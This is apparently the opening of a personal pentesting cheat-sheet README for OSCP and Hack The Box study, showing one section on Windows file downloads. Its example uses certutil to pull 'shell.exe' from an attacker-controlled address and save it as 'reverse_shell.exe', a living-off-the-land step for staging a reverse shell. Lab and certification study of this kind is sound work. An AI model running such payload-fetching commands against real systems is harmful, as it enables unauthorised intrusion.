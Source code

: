 # Hacking-Cheatsheet
In this repo I collect all commands, links, techniques and tricks i found during my work as pentester, hacker, OSCP student and hack the box fan.

- [File Transfer and File Downloads](#file-transfer-and-file-downloads)
  - [Windows](#windows)
  - [Download Files with Certutil](#download-files-with-certutil)


# File Transfer and File Downloads

## Windows
### Download Files with Certutil
```bash
certutil.exe -urlcache -f http://<ip>:<port>/<filename> <localfilename>
```
Example:
```bash
certutil.exe -urlcache -f http://10.10.14.37:8080/shell.exe reverse_shell.exe
```
